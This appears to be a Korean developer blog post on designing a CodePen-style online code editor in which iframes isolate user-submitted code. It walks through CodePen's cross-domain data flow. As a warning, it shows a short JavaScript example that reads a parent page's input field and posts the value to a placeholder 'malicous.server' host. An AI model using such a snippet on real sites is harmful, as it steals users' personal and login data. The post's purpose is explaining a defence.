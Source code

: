 ```yaml
---
layout: single
title: '코드 에디터를 만들기 위한 iframe 디자인 패턴'
categories: HTML
tag: [HTML, CodePen Project]
---
```


## 코드 에디터를 만들기 위한 iframe 디자인 패턴

#### 개발 목표

Code Pen이라는 사이트가 있다. - https://codepen.io/
해당 사이트와 같이 코드를 입력하고 번들링하여 실시간으로 결과를 보여주는 사이트를 React를 사용하여 만들고자 한다.

---

#### 코드 입력 창에서 발생할 수 있는 문제점

간단하게 만들 수 있을 것 같았지만 코드를 입력하는 창을 구현하기 위해서는 아래와 같은 이슈사항들이 있었다.

1. 코드 입력창에 오류를 발생시키는 문법 등의 잘못된 코드가 작성될 수 있다.
2. DOM을 조작하는 코드로 인해 예상하지 못한 현상이 발생할 수 있다.
   ex) document.body.innerHTML = '';
3. 사용자가 악의적인 코드를 넣을 수 있다.
   ex) for (var i = 0; i < 99999999999999999; i++) {
   console.log(i);
   }

---

#### iframe 사용하여 해결

상기와 같은 문제점을 해결하기 위해서 HTML의 iframe을 사용해야 한다. iframe은 일반적으로 child frame이며, 그외의 요소는 parent frame에 속한다. 여기서 중요한 것은 **JavaScript EC(execution context)가 parent/child frame 별로 각각 따로 존재하고 실행된다는 것이다**. 즉, iframe에서 문제가 발생하더라도 iframe의 EC에서만 오류가 발생하고, Front App의 EC에는 영향을 주지 않는다. 만약, iframe 내부에서 DOM을 조작하여도 프레임 내부에서만 문제가 발생하는 것이다.

![codepen-flowchart](/assets/images/iframe/js-execution-context.png 'Code Pen 사이트 디자인패턴')

그렇다면 어떻게 사용자가 입력한 코드를 iframe로 넣어 실행할 수 있을까?
'child frame'에서 'parent frame'의 정보를 가져올 때는 'parent' 문법을 사용하면 된다. 크롬 개발자 도구의 'console' 탭에서 'child iframe' 요소를 선택 후 'parent'를 입력하면 'parent frame'의 'Window 객체' 나타나는 것을 확인 할 수 있다. 반대로 'parent frame'에서 'child iframe'의 정보를 가져올 때는 'document.querySelector('iframe').contentWindow' 문법을 사용하면 된다.

추가적으로 알아야할 사항은 iframe이 항상 parent와 child frame의 커뮤니케이션을 허용하는 것은 아니라는 점이다. iframe은 아래와 같은 조건에서만 parent/child가 서로 접근할 수 있다.

-   iframe에 'sandbox' 프로퍼티가 없는 경우
-   sandbox의 프로퍼티가 존재하지만, 'sandbox="allow-same-origin"'인 경우
-   parent/child의 HTML document가 같은 domain, port, protocol(http vs https)인 경우

---

#### parent/child 직접 통신 방식의 문제점 및 해결방법

하지만, parent/child frame이 서로 직접 접근할 수 있으면 많은 문제점이 발생한다. 예를 들어, 해커가 사용자의 코드 입력 창에 아래와 같은 악의적인 코드를 넣을 수 있다. 이를 통해 해커는 'child frame'에서 'parent input element'를 가져올 수 있다. 이후 eventListener를 사용하여 악의적인 서버로 개인 및 로그인 정보를 보낼 수 도 있을 것이다.

```javascript
document.querySelector('input').addEventListener('change', function => {
   axios.post('malicous.server', {
      value: event.target.value
   })
})
```

이외에도 쿠키와 세션 정보 등을 갈취할 수 있을 것이다. 이러한 이유로 Code Pen 사이트에서도 parent/child가 직접 통신하는 방식으로 구현하지 않았다.

아래는 Code Pen 사이트의 데이터 흐름을 정리한 것이다.
![codepen-flowchart](/assets/images/iframe/codepen-flowchart.png 'Code Pen 사이트 디자인패턴')

codepen.io 사이트 Flow 흐름 설명

1. 사용자가 코드를 입력하면 'codepen.io' 서버에 코드를 전송한다.
2. codepen.io 서버에서 코드 Transpiling 프로세스가 완료된다.
3. Transpiling된 코드를 Frontend App으로 전송한다.
4. **전송된 코드를 바로 Frontend App에서 실행하는 것이 아니라 iframe을 먼저 Reload 시킨다.** (Reload는 새로고침과 유사)
5. Reload가 될 때, 'copn.io' 서버에 요청하여 iframe에서 보여질 HTML document를 가져온다. 즉, iframe은 다른 도메인을 통해서 로드된다.
6. HTML document 요소를 가져온 뒤, 기존에 Transpiling 프로세스가 완료된 JS 코드를 다시 'cdpn.io'에 보낸 후 돌려받으며 JS 코드를 실행하며 끝난다.

> 사이트에서 코드를 입력하면 개발자 도구 Network 탭에서 통신을 확인할 수 있다.
> ![codepen-flowchart-site](/assets/images/iframe/codepen-flowchart-realsite.png 'Code Pen 사이트 네트워크 탭')

흐름을 살펴보면 Front App과 iframe간의 직접 통신하는 부분이 없다는 것을 알 수 있다. 이는 위에서 설명했듯이 악의적인 코드가 브라우저에서 실행되는 것을 방지하기 위해서이다.

대부분의 '온라인 코딩 툴 사이트'는 위와 같은 구조를 가지고 있다. 하지만 서버를 2개나 사용하고 데이터 흐름도 복잡하다. 쉬운 방법은 없을까? 더 간단한 구현 방법은 다음 포스팅에 작성하도록 하겠다.
